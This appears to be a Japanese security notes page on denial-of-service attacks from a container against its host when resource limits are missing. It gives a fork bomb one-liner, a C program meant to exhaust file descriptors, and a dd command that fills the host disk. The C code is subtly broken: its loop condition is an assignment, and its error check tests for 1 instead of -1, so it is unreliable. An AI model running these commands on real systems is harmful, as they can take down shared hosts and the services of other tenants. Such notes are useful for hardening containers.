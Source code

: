 # DoS

コンテナはホストとリソースを共有しているため、リソースの制限を適切に施していない場合、ホストに対する DoS となる可能性があります。

## Fork Bomb

cgroup などでプロセス数を制限していない場合、コンテナで大量にプロセスを生成することでシステムをダウンさせることができます。

```sh
:(){ :|:& };:
```

## 大量のファイルディスクリプタを生成する

開けるファイルディスクリプタ数には上限があるため、コンテナ内で大量にファイルディスクリプタを開くことでホスト側に影響を与えることができます。

```c
#include <stdio.h>
#include<string.h>
#include<unistd.h>
#include<sys/types.h>
#include<sys/stat.h>
#include<fcntl.h>

int main()
{
  char buf[100];
  for(int i=0; i=400275; i++) {
    sprintf(buf, "/tmp/%d", i);
    int fd = open(buf, O_CREAT);
    if ( fd == 1 ) {
      printf("max fd %d\n", i);
      break;
    }
    printf("open %d\n", i);
  }
  for(;;);
}
```

## ディスク容量の圧迫

コンテナにディスク容量制限がない場合は大きなファイルを作成することで、ホストのディスク容量を圧迫させることができます。

```sh
$ dd if=/dev/zero of=bigfile bs=20GB count=10
```
